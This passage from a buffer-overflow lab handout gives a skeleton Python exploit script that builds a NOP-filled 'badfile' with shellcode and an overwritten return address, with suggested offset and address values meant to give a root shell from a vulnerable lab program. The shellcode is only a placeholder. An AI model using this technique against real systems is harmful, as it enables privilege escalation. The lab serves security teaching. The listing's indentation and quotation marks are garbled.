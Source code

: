 ### 5.2 Launching Attacks

To exploit the buffer-overflow vulnerability in the target program, we need to prepare a payload, and save it inside _badfile_. We will use a Python program to do that. We provide a skeleton program called _exploit.py_, which is included in the lab setup file. The code is `incomplete`, and students need to `replace some of the essential values` in the code. 

Listing 3: **exploit.py**

```python
#!/usr/bin/python
import sys

shellcode= (
    "\x90\x90\x90\x90"  
    "\x90\x90\x90\x90"
).encode(’latin-1’)

# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 0                                    #Need to change
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0x00                                   #Need to change
offset = 0                                   #Need to change

L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)
##################################################################

# Write the content to a file
with open(’badfile’, ’wb’) as f:
f.write(content)
```

Open the file using `nano exploit.py`

Change the following values:

| Param | Value |
| ----------- | ----------- |
| start | 400 |
| ret | 0xffffcfa8 + 100 _(something more than `$ebp` value which you copied in previous task)_ |

After you finish the above program, run it. This will generate the contents for _badfile_. Then run the vulnerable program _stack_. If your exploit is implemented correctly, you should be able to get a root shell: 
